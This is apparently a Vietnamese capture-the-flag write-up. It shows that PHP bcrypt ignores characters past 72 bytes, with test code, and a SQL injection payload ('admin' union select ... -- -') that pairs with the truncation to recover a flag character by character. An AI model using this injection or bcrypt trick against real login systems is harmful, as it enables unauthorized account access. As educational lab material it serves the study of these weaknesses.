Thử dùng tool crack thì ta chỉ crack được password của guest thau

<figure><img src="assets/image (13).png" alt=""><figcaption></figcaption></figure>

Ở đây ta biết có 1 cách bypass đó là khi hash password bằng php thì nó sẽ sử dụng PASSWORD\_BCRYPT và nó có cách bypass là nếu 2 string có độ dài > 72 ký tự thì khi verify lại luôn đúng

Test code

```php
<?php
$plain = str_repeat("a", 72);
$challenge = str_repeat("a", 72) . "cc";

$hashed_password = password_hash($plain, PASSWORD_BCRYPT);
echo "Hashed Password: " . $hashed_password . PHP_EOL;

$is_verified = password_verify($challenge, $hashed_password);
echo "Is Verified: " . ($is_verified ? "true" : "false") . PHP_EOL;
?>
```

<figure><img src="assets/image (12).png" alt=""><figcaption></figcaption></figure>

Ta sẽ sử dụng payload sau để brute force password thôi

ví dụ

<pre><code>username = admin' union select 'admin' , '{hash}' -- -
<strong>password = "a" * (71 - len(flag))
</strong>hash = "a" * (71 - len(flag) + flag
</code></pre>

Bây giờ viết code cho nó tự hash và request thôi nếu gặp welcome admin thì đó là 1 ký tự đúng

<figure><img src="assets/image (14).png" alt=""><figcaption></figcaption></figure>

